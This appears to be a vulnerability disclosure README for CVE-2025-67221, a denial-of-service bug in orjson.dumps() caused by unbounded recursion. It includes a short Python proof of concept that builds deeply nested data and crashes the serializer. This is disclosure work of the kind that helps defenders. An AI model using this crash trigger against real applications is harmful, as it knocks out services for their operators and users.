

# CVE-2025-67221

## Vulnerability Summary

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-67221 |
| **Affected Product** | orjson |
| **Affected Versions** | ≤ 3.11.4 |
| **Vulnerability Type** | Denial of Service (Uncontrolled Recursion) |
| **Attack Vector** | Remote (if attacker controls serialized data) |

## Description
A denial-of-service vulnerability exists in the `orjson.dumps()` function in orjson versions 3.11.4 and earlier. The function does not enforce a recursion limit when serializing deeply nested JSON data structures. An attacker who can cause an application to serialize attacker-controlled nested data can trigger a crash in the serialization routine.

## Affected Function
- **Function**: `orjson.dumps()`
- **File**: `pysrc/orjson/__init__.pyi`

## Tests
Tested on 
* Python 3.12.3/3.11.2/3.12.3/3.13.9/3.14.0 on Ubuntu Linux  kernel 6.8.0-88
* Python 3.13.3 Microsoft Windows 11 Education 10.0.26200 Build 26200

## Impact
Applications that use orjson to serialize untrusted or attacker-controlled data structures may be vulnerable to denial-of-service attacks.

## Reproduction code
Code to replicate the vulnerability locally:

```python
import orjson
import sys
import platform
print(f'OS: {platform.platform()}') 
print(f'Python version: {sys. version}') 
print(f'orjson version: {orjson.__version__}')
nested = []
for i in range(100):
    nested = [{"level": i, "next": nested}]
dumped = orjson.dumps(nested)
```

##Demo
The code above leads to a nice core dump



## Authors / Researchers

- Constantinos Patsakis, Department of Informatics, University of Piraeus, Greece  
- Evgenios Gkritsis, Department of Informatics, Athens University of Economics and Business, Greece  
- George Stergiopoulos, Department of Informatics, Athens University of Economics and Business, Greece

## References

- https://github.com/ijl/orjson (Affected project)
